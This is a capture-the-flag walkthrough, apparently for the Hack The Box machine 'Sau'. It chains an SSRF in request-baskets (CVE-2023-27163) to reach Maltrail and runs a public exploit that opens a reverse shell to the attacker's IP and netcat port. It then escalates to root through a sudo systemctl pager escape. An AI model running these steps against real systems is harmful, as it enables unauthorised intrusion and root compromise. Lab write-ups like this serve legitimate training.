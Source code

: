 # Sau

User FLAG
----

So if we start doing an scan

```
nmap -T4 --min-rate 5000 -vvv -o all 10.10.11.224
```

We get the following result

```shell
# Nmap 7.80 scan initiated Sun Feb 18 02:51:22 2024 as: nmap -T4 --min-rate 5000 -vvv -o all 10.10.11.224
Nmap scan report for 10.10.11.224 (10.10.11.224)
Host is up, received conn-refused (0.25s latency).
Scanned at 2024-02-18 02:51:22 -03 for 1s
Not shown: 990 closed ports
Reason: 990 conn-refused
PORT      STATE    SERVICE        REASON
22/tcp    open     ssh            syn-ack
80/tcp    filtered http           no-response
987/tcp   filtered unknown        no-response
1089/tcp  filtered ff-annunc      no-response
1277/tcp  filtered miva-mqs       no-response
1309/tcp  filtered jtag-server    no-response
1334/tcp  filtered writesrv       no-response
3918/tcp  filtered pktcablemmcops no-response
49159/tcp filtered unknown        no-response
55555/tcp open     unknown        syn-ack

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun Feb 18 02:51:23 2024 -- 1 IP address (1 host up) scanned in 0.97 seconds
```

Port 55555 is running with https://github.com/darklynx/request-baskets

After searching for a CVE we find [this](https://github.com/entr0pie/CVE-2023-27163)

Port 80 is filtered, so we can use the following config to bypass the filter

![config](assets/config.png)

With this configuration we can do a `curl http://10.10.11.224:55555/<basket>` and we get an HTML page, reading from there we can see a `Powered by Maltrail` which is a tool to monitor network traffic.

If we google `maltrail exploit` we get a [github repo](https://github.com/spookier/Maltrail-v0.53-Exploit)

And with this we get a reverse shell

```shell
python3 exploit.py <YOUR-IP> <NC-PORT> http://10.10.11.224:55555/<BASKET>
Running exploit on http://10.10.11.224:55555/<BASKET>/login
```

Once inside we get the user flag 

```
cat /home/puma/user.txt
```

Root FLAG
----

After that we start digging to escalate privileges, first we do `sudo -l` and we get the following

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Then we do `sudo systemctl status trail.service` and we get something like this

```
● trail.service - Maltrail Sensor
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Sun 2024-02-18 00:40:00 -03; 1min 3s ago
   Main PID: 1234 (python3)
      Tasks: 1 (limit: 1137)
     Memory: 3.3M
     CGroup: /system.slice/trail.service
             └─1234 /usr/bin/python3 /opt/maltrail/sensor.py
```

Here we can write `!sh` and we get a shell as root

Next we can get the root flag

```
cat /root/root.txt
```

## Links
- https://github.com/entr0pie/CVE-2023-27163
- https://github.com/spookier/Maltrail-v0.53-Exploit
- https://medium.com/@zenmoviefornotification/saidov-maxim-cve-2023-26604-c1232a526ba7
- https://notes.sjtu.edu.cn/s/MUUhEymt7#
- https://gtfobins.github.io/gtfobins/systemctl/
